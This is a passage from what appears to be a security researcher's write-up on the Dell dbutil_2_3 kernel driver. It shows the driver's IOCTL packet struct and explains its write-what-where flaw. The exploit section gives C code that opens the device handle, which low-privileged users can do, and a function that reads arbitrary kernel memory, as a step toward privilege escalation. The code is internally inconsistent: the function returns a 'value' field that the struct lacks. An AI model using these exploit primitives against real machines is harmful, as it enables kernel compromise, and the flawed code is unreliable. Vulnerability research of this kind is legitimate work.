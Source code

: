 Concluding, this allows us to construct the following struct:

{% highlight c %}
typedef struct _PACKET
{
    uint64_t ignore;                // Offset 0x00/00: Ignore
    uint8_t* user_address;          // Offset 0x08/08: Address to read from or write to
    uint64_t user_address_offset;   // Offset 0x10/16: Offset (may always be 0)
    uint8_t* kernel_address;        // Offset 0x18/24: Data to write (if writing)
} PACKET, * PPACKET;
{% endhighlight %}

Which will call `memmove` in the following ways:

{% highlight c %}
// Writing kernel memory
memmove(packet->kernel_address, packet->user_address + packet->user_address_offset, 8);

// Reading kernel memory
memmove(packet->user_address + packet->user_address_offset, packet->kernel_address, 8);
{% endhighlight %}

As there is no proper input validation whatsoever, the kernel driver is indeed vulnerable to a write-what-where vulnerability.

### 2. Exploit

To communicate with the driver, we first need to open a handle to it. The pseudocode below shows how to open a handle to the symbolic link of the driver device. Using the software DeviceTree (from OSR), the ACLs on the symbolic link can be inspected. This shows that `Everyone` has permissions to open handle to the symbolic link. Thus, the code below to create a handle to the symbolic link can even be executed by low-privileged users on the system. This gives threat actors the opportunity for privilege escalation.

{% highlight c %}
HANDLE hDevice = CreateFileW(L"\\\\.\\dbutil_2_3", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
{% endhighlight %}

Afterwards, this handle can be used to call the two vulnerable IOCTLs. I've created two functions for this. The first one is for reading kernel memory, by passing the device handle and a kernel address to it.

{% highlight c %}
/**
 * Read kernel space memory.
 * 
 * @param HANDLE hDevice The handle to the vulnerable driver.
 * @param uint8_t* kernel_address Kernel space address to read.
 * @return uint8_t* The memory byte stream.
 */
uint8_t* memoryRead(HANDLE hDevice, uint8_t* kernel_address) {
    uint32_t lpBytesReturned;
    PACKET lpBuffer;

    lpBuffer.user_address_offset = 0;
    lpBuffer.kernel_address = kernel_address;

    if (!DeviceIoControl(hDevice, ARBITRARY_READ_IOCTL, &lpBuffer, sizeof(lpBuffer), &lpBuffer, sizeof(lpBuffer), &lpBytesReturned, NULL)) {
        puts("DeviceIoControl error in 'memoryRead'.");
    }
    
    return lpBuffer.value;
}
{% endhighlight %}
